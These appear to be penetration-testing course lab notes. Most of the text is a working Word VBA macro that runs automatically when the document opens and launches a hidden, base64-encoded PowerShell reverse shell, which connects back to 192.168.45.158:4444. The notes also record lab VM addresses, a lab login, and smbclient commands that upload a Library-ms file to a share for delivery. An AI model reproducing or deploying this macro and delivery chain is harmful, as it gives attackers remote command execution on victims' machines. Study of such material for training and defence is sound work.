 $EncodedText

```


```powershell
Sub AutoOpen()
    MyMacro
End Sub

Sub Document_Open()
    MyMacro
End Sub

Sub MyMacro()
    Dim Str As String
    
Str = Str + "powershell.exe -nop -w hidden -enc JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBj"
Str = Str + "AGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQA5ADIALgAxADYAOAAuADQANQAuADEANQA4ACIALAA0ADQANAA0ACkAOwAkAHMAdAByAGUAYQBtACAAPQAgACQAYwBsAGkAZQBuAHQALgBHAGUAdAB"
Str = Str + "TAHQAcgBlAGEAbQAoACkAOwBbAGIAeQB0AGUAWwBdAF0AJABiAHkAdABlAHMAIAA9ACAAMAAuAC4ANgA1ADUAMwA1AHwAJQB7ADAAfQA7AHcAaABpAGwAZQAoACgAJABpACAAPQAgACQAcwB0AHIAZQBhAG0ALgBSAGUAYQBkACgAJA"
Str = Str + "BiAHkAdABlAHMALAAgADAALAAgACQAYgB5AHQAZQBzAC4ATABlAG4AZwB0AGgAKQApACAALQBuAGUAIAAwACkAewA7ACQAZABhAHQAYQAgAD0AIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIAAtAFQAeQBwAGUATgBhAG0AZQAgAFMAe"
Str = Str + "QBzAHQAZQBtAC4AVABlAHgAdAAuAEEAUwBDAEkASQBFAG4AYwBvAGQAaQBuAGcAKQAuAEcAZQB0AFMAdAByAGkAbgBnACgAJABiAHkAdABlAHMALAAwACwAIAAkAGkAKQA7ACQAcwBlAG4AZABiAGEAYwBrACAAPQAgACgAaQBlAHgA"
Str = Str + "IAAkAGQAYQB0AGEAIAAyAD4AJgAxACAAfAAgAE8AdQB0AC0AUwB0AHIAaQBuAGcAIAApADsAJABzAGUAbgBkAGIAYQBjAGsAMgAgAD0AIAAkAHMAZQBuAGQAYgBhAGMAawAgACsAIAAiAFAAUwAgACIAIAArACAAKABwAHcAZAApAC4"
Str = Str + "AUABhAHQAaAAgACsAIAAiAD4AIAAiADsAJABzAGUAbgBkAGIAeQB0AGUAIAA9ACAAKABbAHQAZQB4AHQALgBlAG4AYwBvAGQAaQBuAGcAXQA6ADoAQQBTAEMASQBJACkALgBHAGUAdABCAHkAdABlAHMAKAAkAHMAZQBuAGQAYgBhAG"
Str = Str + "MAawAyACkAOwAkAHMAdAByAGUAYQBtAC4AVwByAGkAdABlACgAJABzAGUAbgBkAGIAeQB0AGUALAAwACwAJABzAGUAbgBkAGIAeQB0AGUALgBMAGUAbgBnAHQAaAApADsAJABzAHQAcgBlAGEAbQAuAEYAbAB1AHMAaAAoACkAfQA7A"
Str = Str + "CQAYwBsAGkAZQBuAHQALgBDAGwAbwBzAGUAKAApAA=="
    CreateObject("Wscript.Shell").Run Str
End Sub
```

12.3.1 Q1 
192.168.205.194   VM1
192.168.205.195   VM2

```
offsec / lab
config.library-ms
smbclient //192.168.50.195/share -c 'put config.Library-ms'

# in two commands, 
smbclient //192.168.205.195/share 
put config.Library-ms
```

12.3.1 Q3 
192.168.205.194   VM3
192.168.205.199  VM4
